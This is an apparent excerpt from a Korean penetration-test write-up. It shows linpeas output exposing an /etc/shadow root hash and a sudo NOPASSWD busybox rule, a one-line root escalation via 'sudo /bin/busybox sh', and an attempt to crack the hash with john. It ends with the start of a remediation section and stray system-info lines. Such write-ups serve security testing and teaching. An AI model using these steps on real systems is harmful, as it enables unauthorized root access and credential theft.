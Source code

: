 linpeas

  

```

# linpeas: /etc/shadow

╣ Can I read shadow files? ............. root:$y$j9T$oZhlXFTcH84ew/3GwwYvZ1$063DG6RbDw2RFb6I8xh0AFt.4zk/lteqrzmUNvtTl.6:19694:0:99999:7:::

  

# /etc/passwd

root:x:0:0:root:/root:/bin/bash

  

# linpeas: sudo -l

══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d

[ . . . ]

User www-data may run the following commands on dmz-prod-rrblog01:

(ALL) NOPASSWD: /bin/busybox

```

  

- 획득한 `(ALL) NOPASSWD: /bin/busybox ` 을 이용하여 GTFObins를 통해 해당 바이너리의 취약점을 이용하여 root권한 상승 성공했다.

  

```

sudo /bin/busybox sh

```

  

- <img src="image-22.png" alt="root유저의 쉘 획득" style="zoom:50%;" />

- 추가적으로 획득한 shadow, passwd 파일을 이용하여 `unshadow`와 `john`을 활용한 루트 유저의 패스워드 크래킹도 진행해보았는데 실패했다.

  

---

  

### 취약점 및 대응 방안

  

#### 1. 백업 디렉토리 웹 사이트 노출


[01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2500 Mhz
[01]: Amazon Elastic Network Adapter
[01]: 10.0.5.116
[02]: fe80::4c64:ec7d:fde5:903c